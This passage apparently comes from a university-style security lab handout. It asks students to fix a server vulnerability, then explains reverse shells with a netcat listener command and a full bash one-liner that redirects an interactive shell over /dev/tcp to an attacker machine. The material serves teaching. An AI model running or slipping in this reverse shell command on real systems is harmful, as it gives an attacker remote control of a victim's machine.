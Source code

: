 
---
Remember the warning message generated by the gcc compiler? Please explain what it means. Please fix the vulnerability in the server program, and recompile it. Does the compiler warning go away? Do your attacks still work? You only need to try one of your attacks to see whether it still works or not.

---
## 9) Informational Guidelines on Reverse Shell
---
The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the other end of the connection is a program run by the attacker; the program simply displays whatever comes from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network connection.

A commonly used program by attackers is netcat, which, if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port. This server program basically prints out whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the following experiment, netcat (nc for short) is used to listen for a connection on port 9090 (let us focus only on the first line).

```bash
Attacker(10.0.2.6):$ nc -nv -l 9090 # Waiting for reverse shell
Listening on 0.0.0.0 9090Connection received on 10.0.2.5 39452
Server(10.0.2.5):$  # Reverse shell from 10.0.2.5.
Server(10.0.2.5):$ ifconfig
ifconfig enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500 inet 10.0.2.5 netmask 255.255.255.0 broadcast 10.0.2.255 ...
```

The above nc command will block, waiting for a connection. We now directly run the following bash program on the Server machine (10.0.2.5) to emulate what attackers would run after compromising the server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine's port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating that the shell is running on the Server machine; we can type the ifconfig command to verify that the IP address is indeed 10.0.2.5, the one belonging to the Server machine. Here is the bash command:
```
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
```
The above command represents the one that would normally be executed on a compromised server. It is quite complicated, and we give a detailed explanation in the following:

- "/bin/bash -i": The option i stands for interactive, meaning that the shell must be interactive (must provide a shell prompt).
- "> /dev/tcp/10.0.2.6/9090": This causes the output device (stdout) of the shell to be redirected to the TCP connection to 10.0.2.6's port 9090. In Unix systems, stdout's file descriptor is 1.
- "0<&1": File descriptor 0 represents the standard input device (stdin). This option tells the system to use the standard output device as the stardard input device. Since stdout is already redirected to the TCP connection, this option basically indicates that the shell program will get its input from the same TCP connection.
- "2>&1": File descriptor 2 represents the standard error stderr. This causes the error output to be redirected to stdout, which is the TCP connection.
